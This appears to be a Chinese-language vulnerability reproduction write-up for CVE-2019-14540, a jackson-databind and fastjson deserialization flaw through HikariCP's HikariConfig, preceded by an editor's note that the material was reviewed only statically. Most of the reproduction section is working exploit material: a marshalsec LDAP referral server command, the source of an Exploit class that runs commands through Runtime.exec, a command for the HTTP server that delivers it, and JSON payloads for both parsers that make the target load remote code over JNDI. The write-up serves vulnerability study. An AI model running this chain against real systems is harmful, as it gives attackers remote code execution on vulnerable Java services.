

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Jackson&lt;=2.7.9.6/2.8.11.4/2.9.9.3; Fastjson&lt;=1.2.59 claimed; Hikari2.4.0/defaultTyping or AutoType/JDK&lt;8u191 lab

代码与实验材料：Both parser snippets and LDAP/HTTP/exploit setup; lacks pinned Jackson/Fastjson deps

来源证据范围：leadroyal, restran, Seebug and demo repo

- **证据待核（1）**：Latest Hikari2.4.0 is undated historical wording; image mapped to8840 resource; no explicit fix section。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-14540）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

FasterXML
Jackson是美国FasterXML公司的一款适用于Java的数据处理工具。jackson-databind是其中的一个具有数据绑定功能的组件。
FasterXML jackson-databind
2.9.10之前版本中存在输入验证错误漏洞。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

jackson-databind \<=2.7.9.6,2.8.11.4,2.9.9.3

fastjson \<= 1.2.59

三、复现过程
------------

### 分析过程

我喜欢用 gradle 来管理项目，先依赖一个最新版的回来

    compile 'com.zaxxer:HikariCP:2.4.0'

观察 HikariConfig.java 的setter 和 getter
方法，稍微有点常识的人都能看出， setMetricRegistry 和
setHealthCheckRegistry
里有明显的lookup方法，下一步就是按照标准的剧本去利用一遍了，经典的jndi漏洞利用，老司机应该分分钟就搞定，但我从来没写过利用，就从头学习一下。

### 利用过程（常见的jndi利用）

首先，我利用的是 ldap 协议，需要在低版本（小于
java8u191）下利用，详细原理我不是很清楚，大致原理就是从远程加载一个
class文件，调用它的构造函数，在构造函数里可以执行任意代码。

然后，借用 https://github.com/ianxtianxt/marshalsec 提供的转发功能，创建
ldap server，作用是转发到另一个 http server 上，使用非常方便。

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 1389

    Listening on 0.0.0.0:1389

然后编译一个 Exploit.class 出来，找个地方放好

    public class Exploit {
        public Exploit() {
            try {
                if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                    Runtime.getRuntime().exec("calc.exe");
                } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                    Runtime.getRuntime().exec("open /Applications/Calculator.app");
                } else {
                    System.out.println("No calc for you!");
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

然后在 Exploit.class 目录，开一个 http 服务

    python -m SimpleHTTPServer

之后使用 jackson 进行反序列化

    ObjectMapper mapper = new ObjectMapper();
    mapper.enableDefaultTyping();
    mapper.readValue("[\"com.zaxxer.hikari.HikariConfig\", {\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}]".getBytes(), Object.class);

或者使用 fastjson 进行反序列化

    ParserConfig.global.setAutoTypeSupport(true);
    JSON.parse("{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"ldap://localhost:1389/Exploit\"}");

即可触发弹计算器

FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

### 文中代码的github地址:

https://github.com/ianxtianxt/cve-2019-14540-exploit

参考链接
--------

> https://www.leadroyal.cn/?p=939
>
> https://www.restran.net/2018/10/29/fastjson-rce-notes/
>
> https://paper.seebug.org/942/
